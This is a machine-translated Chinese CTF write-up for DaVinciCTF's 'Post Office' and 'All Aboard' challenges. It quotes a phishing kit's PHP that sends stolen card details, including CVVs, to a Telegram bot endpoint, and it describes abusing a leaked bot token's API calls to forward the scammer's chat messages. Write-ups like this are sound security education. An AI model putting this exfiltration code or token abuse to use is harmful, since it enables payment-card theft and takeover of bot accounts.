





# 邮局—达文西特—报道

> 原文：<https://infosecwriteups.com/post-office-davincictf-writeup-ab1324a65377?source=collection_archive---------3----------------------->

## 与海盗的对话

这个周末，我有幸扮演达芬奇 CTF 和我的团队浮士德获得第一名。这是一场非常有趣和高质量的 CTF，有一些很好的和创造性的挑战。

其中一个挑战是外国邮局，还有一个后续的全船挑战。在下文中，我将解释我们应对这一挑战的方法以及我们最终是如何解决这一问题的。

# 邮局

> 我今天收到一个包裹。几分钟后，我收到了以下短信，要求我支付运费:
> 
> `Chronopost: Veuillez confirmer le reglement des frais (2,99 EUR) et votre adresse de livraison du colis en cliquant sur le lien suivant: [https://bit.ly/2Vw1THR](https://bit.ly/2Vw1THR)`
> 
> 我发现了一个奇怪的 PHP 后门，而该网站仍然活跃，可以访问源代码。你能想办法看看谁被骗了吗？

除了这个介绍，我们还收到了一个 backup.zip 文件，其中包含两个服务器日志文件和服务器的 public_html 目录。查看它，我们看到 59 个文件，并决定从日志文件开始，一个有 2509 行，另一个有 14147 行。



backup.zip 包含两个服务器日志文件和服务器的 public_html 目录

通过滚动抛出文件和搜索一些提示，我们的第一个猜测是，我们会在 vuln.php 找到更多的信息，一个文件被多次请求，显然听起来可疑。不幸的是，它没有包含在备份文件中。



日志文件包含大量可疑的呼叫，例如 vuln.php

不知何故——遗憾的是我不能告诉你具体是怎么回事——一位同事发现了文件 *public_html\知名\ pdf \ data \ chrono post 4 \ ngx \ wait . PHP .*由于文件与 Telegram API 一起工作，并且日志在某处提到 Telegram，他可能只是搜索关键字 Telegram。

该文件包含向服务器发送消息的 PHP 代码，以及电报机器人令牌、聊天 id 和电报 API 命令 sendMessage。此外，该消息包含发出请求的受害者的私人信息。

```
[...]
$message="";
$message.=$ip."\n";
$message.=$Nomcomplet."\n";
$message.=$Adresse."\n";
$message.=$ZIP."\n";
$message.=$Number."\n";
$message.=$MM."/".$AA."\n";
$message.=$CVV."\n";// send message using Telegram API
$website="http://challs.dvc.tf:1101/bot1337991337:AESCKk9bSy2kdtu-Ig7wYkzWkjltctu-UkN";
//Receiver Chat Id
$params=[
    'chat_id'=>'-1001324431100',
    'text'=>$message,
];
$ch = curl_init($website . '/sendMessage');
[...]
```

然后，我们使用相同的命令尝试我们在官方 [Telegram API 文档](https://core.telegram.org/bots/api)中找到的其他 Telegram API 方法。例如，getMe 调用告诉我们这个 bot 被称为 sc4mm3r_bot。

我立即用我的私人账户给机器人发消息，却看到我的消息出现在 *getUpdate* 调用中。结果是:其他人现在都可以看到我的电报处理… s**t。幸运的是，你可以用最新的 update_id 调用 *getUpdate* ，你的消息将不会再被列出。然而，在写这篇文章时，我检查了这个方法，发现出现了许多其他用户的名字。如果你在读这篇文章，我现在有你的把柄了:)

无论如何，机器人没有回应，所以我们很快尝试了每一种可能的方法自动呼叫。不幸的是，只有少数方法被服务器支持，所有其他命令都被拒绝。我们能够使用 *forwardMessage* 、 *copyMessage* 、 *getUserProfilePhotos* 、 *getFile* 、 *getChat* 、*getchatmanagements*、 *getChatMemberCount* 和 *getChatMember* 。

正如挑战描述告诉我们的那样，目标是找到谁爱上了骗子，并得到他们的名字。PHP 代码表明受害者的私人信息包含在群聊中。但是群聊只有两个成员，sc4mm3r_bot 和一个叫黑胡子海盗的用户，很可能就是骗子本身。我们看不到将自己加入聊天或从群聊中轻松请求旧消息的可能性。

经过一番头脑风暴后，我们有了将聊天中的消息转发到我们在 *getUpdate* 中看到的私人聊天 id 的想法。我们不知道 message_id 可能是什么，但只有一种方法可以知道。

我发送了转发命令，当我的手机震动时，我很惊讶——我收到了一条新消息。转发 message_id 3 成功！快速 for 循环后，我的手机并没有停止振动，我收到了一个标志: **dvCTF{C0nt4ct_tH3_p0L1ce！！！}**

下面你可以看到我解决挑战的 python 历史摘录和电报聊天的截图。



机器人转发包括该标志的群聊消息

# 请上船

> 查找邮局骗局背后的骗子的信息

在我们成功提交了邮局挑战的旗帜后，一个新的挑战出现了。这项挑战被称为全船行动，属于奥辛特类。

我的第一个尝试是给骗子发信息，看看我是否能找到更多关于他的信息。也许一些社会工程会有所帮助。

当海盗立即回应时，我感到很惊讶，因为他还没有准备好任何借口。然后我想到了一个伟大的问题:他最喜欢的旗帜是什么？遗憾的是，他不想让我说出来。



与海盗的对话

然而，在 GitHub 上搜索他的用户名 jsbdihwirbjebsjh(参见上面的 python 历史)会找到一个有三个资源库的 GitHub 用户:[https://github.com/jsbdihwirbjebsjh](https://github.com/jsbdihwirbjebsjh)

资源库 *utils* 包含一个名为 *locker.py* 的文件，资源库 *treasure* 包含两个加密文件，密钥可以在 *config/中找到。viminfo* 。有了这些信息，很容易解密文件并接收标志: **dvCTF{4a4r_u_g0t_m3}**



黑胡子海盗的自拍

# 摘要

正如你所看到的，这是一个伟大的和创造性的挑战，充满了现实主义。可悲的是，API 密钥或凭证经常可以在 GitHub 库中找到，并导致灾难性的结果。事实上，几个月前 a 自己也试过:

[](/how-i-got-access-to-other-peoples-medium-accounts-122d49b7f721) [## 我是如何进入其他人的媒体账户的

### GitHub 搜索、API 键和自动化的魔力

infosecwriteups.com](/how-i-got-access-to-other-peoples-medium-accounts-122d49b7f721) 

此外，我对所有网络挑战的评论可以在这里找到:

[](https://fh4ntke.medium.com/davincictf-web-challenges-writeup-517e77d6fa39) [## 达芬奇密码—网络挑战—详细报道

### 这个周末，我有幸扮演达芬奇 CTF 和我的团队浮士德获得第一名。这很有趣，而且…

fh4ntke.medium.com](https://fh4ntke.medium.com/davincictf-web-challenges-writeup-517e77d6fa39) 

最后，我只能说感谢达芬奇密码背后的团队，感谢我的团队同事，玩得很开心。